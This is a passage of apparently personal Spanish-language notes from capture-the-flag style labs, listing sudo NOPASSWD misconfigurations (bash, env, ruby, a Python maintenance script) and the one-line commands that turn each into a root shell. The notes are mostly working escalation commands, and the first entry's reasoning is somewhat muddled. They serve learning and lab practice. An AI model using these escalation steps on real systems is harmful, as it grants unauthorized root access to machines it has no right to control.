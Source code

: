  nos aparezca:

User jenkhack may run the following commands on d27521ade326:
    (ALL : ALL) NOPASSWD: /usr/local/bin/bash


Significa que podemos ejecutar como root y que existe algún archivo con extensión sh que se ejecute, ahora para escalar privilegios lo que debemos hacer es encontrar ese archivo .sh

lo buscamos con:

find / -name *.sh 2>/dev/null

 y modificarlo o cambiarle de nombre y crear uno nuevo con el mismo nombre.

y colocarle este codigo

#!/bin/bash

exec /bin/bash

le damos permisos de ejecucion chmod +x archivo.sh

y luego ejecutar:

sudo /usr/local/bin/bash nombrearchivo.sh


-------------------------------------------------------------------------------

3.-	/usr/bin/env
escribimos el comado:
sudo /usr/bin/env /bin/bash


presionamos enter y listo, somos root
-------------------------------------------------------------------------------
4.-	/usr/bin/ruby	

User juan may run the following commands on d260d4a60dba:
    (ALL) NOPASSWD: /usr/bin/ruby

escribimos el comado:
sudo /usr/bin/ruby -e 'exec "/bin/sh"'

presionamos enter y listo, somos root

-------------------------------------------------------------------------------

5.-	 /usr/bin/python3 /opt/maintenance.py

User freddy may run the following commands on 3aec407d3f0a:
    (ALL) NOPASSWD: /usr/bin/python3 /opt/maintenance.py

editamos el archivo /opt/maintenance.py

nano /opt/maintenance.py

le agregamos el codigo:

import os
os.system('/bin/bash')

